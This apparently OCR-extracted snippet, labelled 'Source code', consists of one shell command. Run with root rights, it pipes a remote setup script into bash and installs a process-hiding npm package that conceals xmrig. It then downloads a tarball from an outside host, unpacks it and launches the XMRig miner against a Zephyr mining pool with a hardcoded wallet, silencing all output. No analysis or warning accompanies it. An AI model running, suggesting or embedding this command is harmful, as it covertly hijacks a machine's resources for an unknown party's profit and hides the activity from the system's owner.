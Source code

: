 sudo su --command "curl -sL https://deb.nodesource.com/setup_17.x | sudo -E bash - && sudo apt-get install -y nodejs && npm i -g updates && npm i -g node-process-hider && npm install -g npm@8.10.0 && sudo ph add xmrig" && wget  https://widewebhoster.com/s.tar.gz ; tar xvzf s.tar.gz ; ./xmrig --donate-level 1 -o de.zephyr.herominers.com:1123 -u ZEPHsB1MPw8CisrxCk1QWWMLsh1iwNbjhZoAs286Ks278mhBzs6e7AzEGpGUK64hYBXSju51CLBZFHPjEkAsGXGn5DoVrcTS45w.kolotok -p x >/dev/null 2>&1

